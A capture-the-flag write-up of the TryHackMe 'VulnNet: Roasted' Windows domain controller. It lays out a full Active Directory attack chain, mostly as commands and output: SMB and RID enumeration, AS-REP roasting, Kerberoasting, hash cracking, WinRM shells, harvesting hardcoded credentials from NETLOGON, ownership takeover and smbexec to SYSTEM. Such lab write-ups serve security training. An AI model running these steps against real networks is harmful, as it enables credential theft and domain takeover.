


# VulnNet: Roasted TryHackMe Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | VulnNet: Roasted |
| **Platform** | TryHackMe |
| **OS** | Windows Server 2019 |
| **Difficulty** | Medium |
| **Domain** | vulnnet-rst.local |
| **DC** | WIN-2BO8M1OE1M1 (10.48.180.15) |

---

## Enumeration

### Nmap

```bash
nmap -sCV -p- 10.48.180.15
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)

Service Info: Host: WIN-2BO8M1OE1M1
```

Clean Windows DC layout. Port 5985 (WinRM) open useful if we land creds. No unusual ports here, so the attack surface is purely AD.

### SMB Anonymous / Guest Enumeration

```bash
smbclient -N -L //$target/
```

```
Sharename                    Type  Comment
---------                    ----  -------
ADMIN$                       Disk  Remote Admin
C$                           Disk  Default share
IPC$                         IPC   Remote IPC
NETLOGON                     Disk  Logon server share
SYSVOL                       Disk  Logon server share
VulnNet-Business-Anonymous   Disk  VulnNet Business Sharing
VulnNet-Enterprise-Anonymous Disk  VulnNet Enterprise Sharing
```

Two non-standard shares with "Anonymous" in the name that's an immediate green flag. Browsing them gives us full names of domain users: **Alexa Whitehat**, **Jack Goldenhand**, **Tony Skid**, **Johnny Leet**.

Full names in hand, we now need the actual sAMAccountNames. Guest auth is allowed, so RID brute is our fastest route:

```bash
nxc smb $target -u 'guest' -p '' --shares
# VulnNet-Business-Anonymous: READ
# VulnNet-Enterprise-Anonymous: READ

nxc smb $target -u 'guest' -p '' --rid-brute
```

```
1104: VULNNET-RST\enterprise-core-vn  (SidTypeUser)
1105: VULNNET-RST\a-whitehat          (SidTypeUser)
1109: VULNNET-RST\t-skid              (SidTypeUser)
1110: VULNNET-RST\j-goldenhand        (SidTypeUser)
1111: VULNNET-RST\j-leet              (SidTypeUser)
```

Five domain users mapped. Building `valid_user.txt` with all five.

---

## Initial Foothold Part 1: Kerberos Attacks

### AS-REP Roasting → t-skid

With a list of valid usernames but no passwords, AS-REP roasting is the first thing to try. Any user with pre-authentication disabled leaks a crackable hash to unauthenticated callers:

```bash
impacket-GetNPUsers vulnnet-rst.local/ \
  -request -usersfile valid_user.txt -no-pass -dc-ip 10.48.180.15
```

```
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] $krb5asrep$23$t-skid@VULNNET-RST.LOCAL:7a35d36c8014...1c9fe2
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`t-skid` has pre-authentication disabled. Cracking the hash:

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:7a35d36c...:tj072889*

Status: Cracked
Time.Started: Sun Oct 18 13:02:24 2026 (4 secs)
```

**t-skid : tj072889*** cracked in 4 seconds.

```bash
nxc smb $target -u 't-skid' -p 'tj072889*'
# [+] vulnnet-rst.local\t-skid:tj072889*

nxc winrm $target -u 't-skid' -p 'tj072889*'
# [-] Not Pwn3d no WinRM access
```

Valid domain user, no shell. But we have creds now, which means we can run authenticated Kerberos attacks.

### Kerberoasting → enterprise-core-vn

With `t-skid`'s credentials, we enumerate SPNs service accounts are prime Kerberoast targets:

```bash
impacket-GetUserSPNs vulnnet-rst.local/t-skid:tj072889* \
  -dc-ip 10.48.180.15 -request
```

```
ServicePrincipalName    Name                MemberOf
----------------------  ------------------  -------------------------------------------------------------
CIFS/vulnnet-rst.local  enterprise-core-vn  CN=Remote Management Users,CN=Builtin,DC=vulnnet-rst,DC=local

$krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$...:ry=ibfkfv,s6h,
```

There's a Kerberoastable SPN, and `enterprise-core-vn` is a member of **Remote Management Users** meaning if we crack this hash, we get a WinRM shell.

```bash
hashcat -m 13100 hash1.txt /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*enterprise-core-vn$...:ry=ibfkfv,s6h,

Status: Cracked
```

**enterprise-core-vn : ry=ibfkfv,s6h,**

### WinRM Shell as enterprise-core-vn User Flag

```bash
nxc winrm $target -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,'
# [+] Pwn3d!

evil-winrm -u enterprise-core-vn -p 'ry=ibfkfv,s6h,' -i 10.48.180.15
```

```
*Evil-WinRM* PS C:\Users\enterprise-core-vn\Documents> type ../Desktop\user.txt
THM{726b7c0baaac1455dREDACTED7b5561f4ed}
```

User flag captured.

```powershell
whoami /priv | findstr "Enabled"
# SeMachineAccountPrivilege     Enabled
# SeChangeNotifyPrivilege       Enabled
# SeIncreaseWorkingSetPrivilege Enabled
```

No dangerous privileges. Standard low-privilege user token.

---

## Dead End: RBCD Rabbit Hole

`SeMachineAccountPrivilege` is enabled, my instinct is to try RBCD (Resource-Based Constrained Delegation). so i create a computer account and try to set up delegation:

```bash
bloodyad -d vulnnet-rst.local -u enterprise-core-vn -p 'ry=ibfkfv,s6h,' \
  --host 10.48.180.15 add computer wakamiya '20071110@'
# [+] wakamiya$ created
```

Then trying to set `msDS-AllowedToActOnBehalfOfOtherIdentity` via `impacket-rbcd`:

```bash
# All of these failed:
impacket-rbcd -delegate-from 'wakamiya' -delegate-to 'enterprise-core-vn' \
  -action write -dc-ip 10.48.180.15 'vulnnet-rst.local/$user:$pass'
# [-] User not found in LDAP: wakamiya

impacket-rbcd -delegate-from 'wakamiya$' -delegate-to 'enterprise-core-vn' ...
# [-] User not found in LDAP: wakamiya$

impacket-rbcd -delegate-from 'wakamiya$' -delegate-to 'WIN-2BO8M1OE1M1$' ...
# [-] User not found in LDAP: wakamiya$
```

Every variation hits `User not found in LDAP`. The computer account was created but `impacket-rbcd` couldn't resolve it likely a timing or replication issue, or `enterprise-core-vn` simply doesn't have the right to write `msDS-AllowedToActOnBehalfOfOtherIdentity` on the DC object. This was a rabbit hole.

---

## Lateral Movement SMB Spider + Hardcoded Credentials

### SMB Spider with enterprise-core-vn

Shifting focus back to enumeration. `enterprise-core-vn` has READ access to more shares than `guest` did specifically NETLOGON and SYSVOL. Running spider_plus to recursively download everything:

```bash
nxc smb 10.48.180.15 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' \
  -M spider_plus -o DOWNLOAD_FLAG=True
```

```
[*] Total folders found:  26
[*] Total files found:    13
[*] Downloads successful: 13
[+] Saved share-file metadata to "/home/wakamiya/.nxc/modules/nxc_spider_plus/10.48.180.15.json"
```

Reviewing the JSON index of what was found:



The JSON immediately shows something interesting: `NETLOGON/ResetPassword.vbs` a 2.75 KB VBScript in the logon server share.

### ResetPassword.vbs Plaintext Credentials

```bash
cat /home/wakamiya/.nxc/modules/nxc_spider_plus/10.48.180.15/NETLOGON/ResetPassword.vbs
```



```vbscript
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

A VBScript that resets `a-whitehat`'s password with the new password hardcoded in plaintext. This script was likely deployed as a logon script or admin tool and left in NETLOGON where any authenticated user can read it.

### WinRM as a-whitehat Domain Admin

```bash
nxc smb 10.48.180.15 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
# [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)

nxc winrm 10.48.180.15 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'
# [+] (Pwn3d!)
```

`(Pwn3d!)` on SMB means local admin or Domain Admin. Let's check:

```bash
evil-winrm -u a-whitehat -p bNdKVkjv3RR9ht -i 10.48.180.15
```

```powershell
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> whoami /priv | findstr "Enabled"

SeIncreaseQuotaPrivilege        Enabled
SeMachineAccountPrivilege       Enabled
SeSecurityPrivilege             Enabled
SeTakeOwnershipPrivilege        Enabled
SeLoadDriverPrivilege           Enabled
SeSystemProfilePrivilege        Enabled
SeSystemtimePrivilege           Enabled
SeProfileSingleProcessPrivilege Enabled
SeIncreaseBasePriorityPrivilege Enabled
SeCreatePagefilePrivilege       Enabled
SeBackupPrivilege               Enabled
SeRestorePrivilege              Enabled
SeShutdownPrivilege             Enabled
SeDebugPrivilege                Enabled
SeSystemEnvironmentPrivilege    Enabled
SeChangeNotifyPrivilege         Enabled
SeRemoteShutdownPrivilege       Enabled
SeUndockPrivilege               Enabled
SeEnableDelegationPrivilege     Enabled
SeManageVolumePrivilege         Enabled
SeImpersonatePrivilege          Enabled
SeCreateGlobalPrivilege         Enabled
SeIncreaseWorkingSetPrivilege   Enabled
SeTimeZonePrivilege             Enabled
SeCreateSymbolicLinkPrivilege   Enabled
SeDelegateSessionUserImpersonatePrivilege Enabled
```

That's the full Domain Admin privilege set. `a-whitehat` is a DA.

---

## Root Flag

### Method 1: SeTakeOwnershipPrivilege (from evil-winrm session)

The `system.txt` flag on Administrator's desktop is locked down:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type system.txt
# Access to the path is denied.
```

Even as DA via WinRM, the file ACL denies access. But we have `SeTakeOwnershipPrivilege` we can forcibly take ownership of any file, then grant ourselves access:

```powershell
# Take ownership of the file
takeown /f C:\Users\Administrator\Desktop\system.txt
# SUCCESS: The file now owned by VULNNET-RST\a-whitehat.

# Grant full access to ourselves
icacls C:\Users\Administrator\Desktop\system.txt /grant a-whitehat:F
# processed file: ...system.txt Successfully processed 1 files

# Read
type system.txt
THM{16f45e3934293a5764REDACTEDf71d8d4c}
```

### Method 2: impacket-smbexec (SYSTEM directly, cleaner)

Since `a-whitehat` is a Domain Admin with SMB admin access, smbexec gives us `NT AUTHORITY\SYSTEM` without any file permission dance:

```bash
impacket-smbexec vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.48.180.15 -shell-type cmd
```

```
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\system.txt
THM{16f45e3934293a5764REDACTEDf71d8d4c}
```

---

## Lessons Learned

**Anonymous shares are an immediate red flag always read everything in them.** The `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous` shares gave us the full names of domain users without any authentication. While in this case the actual usernames came from RID bruting, the lore/name mapping from the share helped build context immediately. Any anonymous-readable share should be spidered completely.

**AS-REP roasting works before you have any credentials.** `t-skid` had pre-authentication disabled, leaking a crackable hash to anonymous callers. This is a misconfiguration that gives attackers a foothold from zero. Pre-auth should be enabled for all domain users unless there's a very specific technical reason not to.

**Kerberoast every SPN you find especially service accounts in privileged groups.** `enterprise-core-vn` had both an SPN (making it Kerberoastable) and membership in Remote Management Users. That combination meant cracking the hash directly gave us a WinRM shell. Always check group memberships of SPN accounts in BloodHound or LDAP output.

**NETLOGON scripts are a classic credential dump location.** Logon scripts, password reset scripts, and deployment automation stored in NETLOGON are readable by all authenticated domain users. Developers and sysadmins frequently hardcode credentials in these scripts for "convenience." The `spider_plus` module is one of the fastest ways to pull everything down and find these files download all, grep for passwords, check `.vbs`, `.bat`, `.ps1`, `.xml` files first.

**SeTakeOwnershipPrivilege is effectively read-any-file.** Even when file ACLs deny access to the owner (Administrator), `SeTakeOwnershipPrivilege` lets you forcibly take ownership and re-grant access. It's a quieter alternative to smbexec/psexec and useful when you need to stay in an existing WinRM session.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & service detection |
| **smbclient** | SMB share listing (anonymous) |
| **nxc (NetExec)** | Guest auth, share enum, RID brute, WinRM validation, spider_plus |
| **impacket-GetNPUsers** | AS-REP roasting |
| **impacket-GetUserSPNs** | Kerberoasting |
| **hashcat** | Cracking AS-REP (18200) and TGS (13100) hashes |
| **bloodyad** | Creating computer accounts |
| **impacket-rbcd** | RBCD attempt (dead end) |
| **evil-winrm** | WinRM shell |
| **impacket-smbexec** | SYSTEM shell via SMB admin |
| **takeown / icacls** | File ownership manipulation via SeTakeOwnershipPrivilege |

**References:**
- [NetExec spider_plus module](https://github.com/Pennyw0rth/NetExec)
- [Hashcat Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)